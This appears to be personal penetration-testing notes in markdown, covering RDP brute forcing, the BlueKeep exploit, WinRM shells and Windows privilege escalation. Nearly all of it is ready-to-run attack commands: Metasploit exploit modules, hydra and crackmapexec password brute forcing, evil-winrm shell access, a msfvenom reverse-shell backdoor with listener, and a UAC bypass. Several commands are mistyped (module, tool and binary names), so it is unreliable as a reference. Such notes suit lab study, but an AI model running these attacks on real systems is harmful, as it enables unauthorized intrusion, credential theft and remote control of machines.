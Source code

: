 ###### Exploiting RDP
- use metasploit to confirm the port which is using RDP
	use auxiliary/scanner/rdp/rdp_scanner
	set RHOSTS 10.2.24.86
	set RPORT 3333
	run
- `hydra -L path/to/user/wordlist -P path/to/password/wordlist rdp://10.2.24.86 -s 3333 ` -- to brute force login cred (you can use '-t' to change the speed default is 16 put it to 2 or 3 to not cause DOS on server)
- `xfreerdp /u:[USERNAME] /p:[PASSWORD] /v:[IP:PORT]` or `rdesktop -u Administrator -d CONTROLLER 10.10.33.104`

###### Exploiting Windows CVE-2019-0708 RDP Vulnerability (BlueKeep)
- Msfconsole
	- use auxiliary/scanner/rdp/cve_2019_0708_bluekeep   -- to check if target is vulnerable to bluekeep or not
	- use exploit/windows/rdp/cve_2019_0708_bluekeep_rce
	   set RHOSTS 10.10.10.7
	   set payload /windows/x64/meterpreter/reverce_tcp    -- only if not set by default
	   set LHOSTS
	   set LPORT
	   set RPORT   -- if not default port
	   set target -- set the target (see shoe target)
	   exploit

###### Exploiting WinRM
- `crcakmapexec winrm [IP] -u [USERNAME] -p path/to/wordlist` -- to password brute force
- `crcakmapexec winrm [IP] -u [USERNAME] -p [PASSWORD] -x "CMD"` -  to run arbitrary cmd on system  
- `evil-winrm.rb -u [USERNAME] -p 'PASSWORD' -i [IP]` -- to get shell 
   Or Msfconsole
	use exploit/windows/winrm/winrm_script_exec
	set RHOSTS 10.0.0.173
	set USERNAME administrator
	set PASSWORD tinkerbell
	set FORCE_VBS true
	exploit


### Windows Privilege Escalation
###### Windows Kernel Exploits
- `getsystem` -- inbuild meterpreter cmd that allows you to automatically elevate your privileges on the target system
- `use post/multi/recon/local_exploit_suggester` --  this will enum all the known vuln within this particular version of windows 
   OR manual
   - GitHub: https://github.com/AonCyberLabs/Windows-Exploit-Suggester

###### Bypassing UAC With UACMe (lab is little difficult)
- In order to successfully bypass UAC, we will need to have access to a user account
that is a part of the local administrators group on the Windows target system 
`net localgroup administrators`
- GitHub: https://github.com/hfiref0x/UACME -- to bypass UAC
	- by using `Akagai64.exe 23 path/to/backdoor/` we can elevate the privileges 
	- We will create the backdoor by msfvenom `msfvenom -p windows/meterpreter/reverse_tcp LHOST=[your ip] LPORT=1234 -f exe > backdoor.exe`
	- After that run msfconsole  
		   use exploit/multi/handler
		   set payload windows/meterpreter/reverse_tcp
		   set LHOST (your ip)
		   set LPORT 1234
		   run
	- Now upload the backdoor `upload backdoor.exe` and `upload /path/to/Akagai64.exe`
	- `./Akagai46.exe 23 /path/to/backdoor` 
